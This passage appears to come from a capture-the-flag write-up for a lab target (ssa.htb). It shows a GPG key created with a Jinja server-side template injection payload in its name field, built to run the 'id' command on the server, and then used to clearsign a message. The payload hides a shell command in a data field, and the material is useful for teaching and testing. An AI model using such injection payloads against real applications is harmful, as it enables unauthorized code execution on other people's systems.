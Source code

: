         oxdf@hacky$ gpg --gen-key                                                                            
        gpg (GnuPG) 2.2.27; Copyright (C) 2021 Free Software Foundation, Inc.
        This is free software: you are free to change and redistribute it.
        There is NO WARRANTY, to the extent permitted by law.           
                                                                               
        Note: Use "gpg --full-generate-key" for a full featured key generation dialog.
                                                                               
        GnuPG needs to construct a user ID to identify your key.        
                                                                               
        Real name: {{ namespace.__init__.__globals__.os.popen('id').read() }}
        Email address: rce-id@ssa.htb                                   
        You selected this USER-ID:                                      
            "{{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>"
                                                                               
        Change (N)ame, (E)mail, or (O)kay/(Q)uit? o                     
        We need to generate a lot of random bytes. It is a good idea to perform
        some other action (type on the keyboard, move the mouse, utilize the 
        disks) during the prime generation; this gives the random number
        generator a better chance to gain enough entropy.               
        We need to generate a lot of random bytes. It is a good idea to perform
        some other action (type on the keyboard, move the mouse, utilize the 
        disks) during the prime generation; this gives the random number
        generator a better chance to gain enough entropy.               
        gpg: key D84D2379F42639E4 marked as ultimately trusted          
        gpg: revocation certificate stored as '/home/oxdf/.gnupg/openpgp-revocs.d/042AC4F000212519441CF636D84D2379F42639E4.rev'
        public and secret key created and signed.                       
                                                                               
        pub   rsa3072 2023-11-14 [SC] [expires: 2025-11-13]             
              042AC4F000212519441CF636D84D2379F42639E4                  
        uid                      {{ namespace.__init__.__globals__.os.popen('id').read() }} <rce-id@ssa.htb>
        sub   rsa3072 2023-11-14 [E] [expires: 2025-11-13] 

    </div>

    </div>

2.  Sign any message with `gpg --clearsign` giving the new user with
    `--localuser` to get the signed message.

    <div>

    <div>

        oxdf@hacky$ gpg --clearsign -o- --local-user rce-id@ssa.htb test.msg                                 
        -----BEGIN PGP SIGNED MESSAGE-----                              
        Hash: SHA512                                                    
                                                                               
        this is a test message for the SSA
        -----BEGIN PGP SIGNATURE-----
                                                                               
        iQHDBAEBCgAtFiEEBCrE8AAhJRlEHPY22E0jefQmOeQFAmVTtXkPHHJjZS1pZEBz
        c2EuaHRiAAoJENhNI3n0Jjnkd18MALrbVvuzRBBA5qj/CBuscVBG8MVOqNeInwqj
        2r5B1rDEwetLcf0hLUS4L4Uzyegi3CcxMsV2HBsmi1QMrTH3UpiJwe9P9o/Rfgem
        B3/hUnmBJlSqxJZXNU1+kX7FRIuCFzAy9sPDY6kUmhW24wF8nYjkpZsW7Srg9VQi
        T5o7a0/nKlFgv6EVOYTD0oOs9AoWW/8Qjik2NkfiWo8WloGgcWp4syCL67loF4Mw
        3UZAK4pCI0YiN2m8OoeViNBHVbyViDFrtkbTY4X+H/kYULO2k/EPZj6A84TNO9WI
        PjMCGvQqXqki8QCH76rSnQUG/g80rZlCKICOD+KHzLBHT1Iswhu5vbUKFT4l7zMV
        ON+oqSssSPnimr2jJH4AwLToYcZ3mfOaXWVhMAD1dT1QnfbuyExNt46HtQKIv3km
        ysBroe/r7WQIgFA5XunmehALY4mL0J+LrwpOA+sWPaOTtiVGZitWjBbbVynhTPlk
        9hIzwJIqIqNkavwfi/Va7CsRtvz15g==
        =YVMd
        -----END PGP SIGNATURE-----
